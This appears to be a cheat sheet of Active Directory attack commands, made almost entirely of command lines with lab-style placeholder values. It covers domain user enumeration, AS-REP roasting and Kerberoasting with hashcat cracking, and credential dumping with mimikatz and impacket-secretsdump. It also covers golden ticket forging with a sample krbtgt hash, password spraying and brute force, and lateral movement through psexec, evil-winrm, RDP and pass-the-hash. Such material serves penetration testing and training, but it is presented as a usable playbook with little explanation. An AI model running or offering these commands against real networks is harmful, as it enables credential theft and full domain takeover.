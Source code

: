 

##  Get DOMAIN-Name & Device name 
```
$ crackmapexec smb [IP] 
$ crackmapexec smb 10.10.1.12
```
##  Users fuzzing & enumeration
+ Users fuzzing
```
$ kerbrute userenum  [wordlist]  -d [DC-name] --dc [Dc-ip]
$ kerbrute userenum  /usr/share/wordlists/dirb/others/names.txt  -d test.com --dc 10.10.1.12
```
+ Users enumeration using LDAP(Port 389)
```
$ ldapsearch -H ldap://[DC-IP] -x -b [namingContexts] "(objectClass=person)" | grep "sAMAccountName:" 
$ ldapsearch -H ldap://10.10.1.12 -x -b DC=test,DC=com "(objectClass=person)" | grep "sAMAccountName:" 

```
+ Users enumeration using enum4linux
```
$ enum4linux -v [DC-ip]
$ enum4linux -v 10.10.1.12
```
+ Users enumeration using rpcclient (Port 111)
```
$ rpcclient [DC-ip] -U "" -N 
$ enumdomusers
```
## Active Directory Attacks

### 1. Non-Pre-authentication AS_REP (TGT)
```
$ impacket-GetNPUsers  [dc]/ -no-pass -u [usersname.txt]  -dc-ip [IP]  
$ impacket-GetNPUsers  test.com/ -no-pass -u users.txt  -dc-ip 10.10.1.12

# Use hashcat crack ticket
$ hashcat -m 18200 hash.txt /usr/share/wordlists/rockyou.txt
```
#### OR
```
$ kerburte --dc [ip] -d [domain_name] [user.txt] --downgrade
$ kerburte --dc 10.10.1.12 -d test.com user.txt  --downgrade

# Use hashcat crack ticket
$ hashcat -m 18200 hash.txt /usr/share/wordlists/rockyou.txt 
```

### 2. Kerberoasting SPN (TGS)
 #### A. Enumerate servicePrincipalNames (SPN)
 + using Linux (credentials required)
 ```
$ impacket-GetUserSPNs [Domain-name]/[user]:[pass] -dc-ip [IP]
$ impacket-GetUserSPNs test.com/user:pass123 -dc-ip 10.10.1.12
 
 ```
 + using windows attacker machine (with out credentials)
 ```
$ powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck"
$ Get-NetUser -SPN | select serviceprincipalname
 
 ```
 #### B. Service request (get SPN hash TGS)
  ```
 # Run powershell
 $ Add-Type –AssemblyName System.IdentityModel New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken –ArgumentList '[SPN]'
 $ Add-Type –AssemblyName System.IdentityModel New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken –ArgumentList 'MSSQLSvc/sql01.exam.com:1433'
                
  ```
  ```
  # SPN hash saved on  windows memory  need mimikatz to extarc it
  $ kerberos::list /export
  
  # change format use kirbi2john
  $ kirbi2john SPN-mimikatz-output > hash.txt  
  $ hashcat -m 13100 hash.txt /usr/share/wordlists/rockyou.txt     
  ```
  
  ### 3. Dump hashes
   + using Linux (credentials required)
  ```
  # To dumb SAM & logonpasswords 
  $ impacket-secretsdump [DC-name]/[user]:[pass]@[IP]
  $ impacket-secretsdump test.com/user:pass123$@10.10.1.12

  ```
  + using  mimikatz.exe  (with Administrator priv)
  ```
  $ mimikatz.exe
  
  # check to see if Mimikatz is running with system privileges
  $ privilege::debug 
  
  # output all of the clear text passwords stored on this computer
  $ sekurlsa::logonpasswords full
  
  # Dump local SAM 
  $ lsadump::sam

# Dump tickets that are stored in memory
  $ sekurlsa::tickets 
 ```   
   
 ### 4. Golden Tickets
 
  ```
  $ mimikatz.exe
  $ privilege::debug
  
  $ lsadump::lsa /inject /name:krbtgt
  
  
  # kerberos::golden /user: /domain: /sid: /krbtgt: /id:
  $ kerberos::golden /user:administrator /domain:controller.local /sid:S-1-5-21-849420856-2351964222-986696166 /krbtgt:5508500012cc005cf7082a9a89ebdfdf 
/id:500

# Use Golden Tickets
$ misc::cmd

# Ues device name  to login with high priv
$ psexec.exe \\dc01 cmd.exe   
```
### 5. spray attack password

```
$ crackmapexec smb <IP> -u users.txt -p passwords.txt
```
```
# Password Spraying
$ kerbrute_linux_amd64 passwordspray -d lab.ropnop.com [--dc 10.10.1.12] domain_users.txt Password123

# Brute-Force
$ kerbrute_linux_amd64 bruteuser -d lab.ropnop.com [--dc 10.10.1.12] passwords.lst Allison
```
  
## Lateral movement
```
# winrm   port (5985)
$ evil-winrm -i <ip> -u <user> -p <pass> 


# smb port (445)
impacket-psexec <DC-name>/<user>:<pass>@<IP>
$ impacket-psexec test.com/Allison:pass123@10.10.1.12 


# RDP     port (3389)
rdesktop -u <user> -p <pass> <pass>
$ rdesktop -u Allison -p pass123 10.10.1.12
$ rdesktop -E -d test.com  -u Allison  -p pass123 10.10.1.12   #login use domain user 
```
+ pass the Hash
```
$ evil-winrm -i <ip> -u <user> -p <NTLM hash> 

wmiexec.py -hashes '<NTLM hash>' -dc-ip <ip> <user>@<ip>
$ wmiexec.py -hashes 'aad3b435b51404eeaad3b435b51404ee:823452073d75b9d1cf70ebdf86c7f98e' -dc-ip 10.10.1.12 administrator@10.10.1.12
```
 
 
